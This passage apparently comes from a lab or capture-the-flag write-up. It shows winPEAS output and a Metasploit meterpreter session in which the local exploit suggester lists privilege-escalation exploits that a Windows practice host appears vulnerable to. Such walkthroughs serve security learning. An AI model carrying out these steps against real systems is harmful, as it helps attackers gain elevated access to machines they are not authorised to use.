 ```
MS11-080 patch is NOT installed! (Vulns: XP/SP3,2K3/SP3-afd.sys)
...
report continues, see winPEAS.out file.
...
```

We execute the exploit suggester in metasploit:
```
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(multi/handler) > use 0
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 34 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf5 post(multi/recon/local_exploit_suggester) > 
```
